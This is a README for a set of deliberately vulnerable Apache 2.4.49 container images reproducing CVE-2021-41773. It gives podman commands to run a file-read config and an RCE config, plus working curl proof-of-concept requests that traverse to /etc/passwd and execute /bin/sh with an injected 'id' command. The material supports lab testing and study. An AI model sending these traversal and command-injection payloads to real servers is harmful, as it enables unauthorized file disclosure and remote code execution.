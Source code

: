 # Vulnerable docker images for CVE-2021-41773 Apache path traversal

This vulnerabiltiy *only* applies to version 2.4.49 that have specific non-default configs. In certain situations this can result in either file read or code execution.

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773

https://nvd.nist.gov/vuln/detail/CVE-2021-41773

## Vulnerable file read config

Containers can be pulled directly from Docker Hub using

```podman pull quay.io/vuln/cve-2021-41773:no-cgi```

and executed using

```podman run -dit -p 8080:8080 quay.io/vuln/cve-2021-41773:no-cgi```

The Apache logs can be viewed using below, or just exlude the "-dit" from the above run command to stream stdio
```podman logs <container-id>```

### PoC for file read

```curl http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd```

## Vulnerable RCE config

Containers can be pulled directly from Docker Hub using

```podman pull quay.io/vuln/cve-2021-41773:with-cgi```

and executed using

```podman run -dit -p 8080:8080 quay.io/vuln/cve-2021-41773:with-cgi```

The Apache logs can be viewed using below, or just exlude the "-dit" from the above run command to stream stdio
```podman logs <container-id>```

### PoC for RCE

```curl 'localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'A=|echo;id'```

## Build custom Container containers

Modify and build your own versions using the Dockerfile and template httpd.conf files in the subdirectories

- Use ./no-cgi for the config vulnerable to file read
- Use ./with-cgi for the config vulnerable to code execution
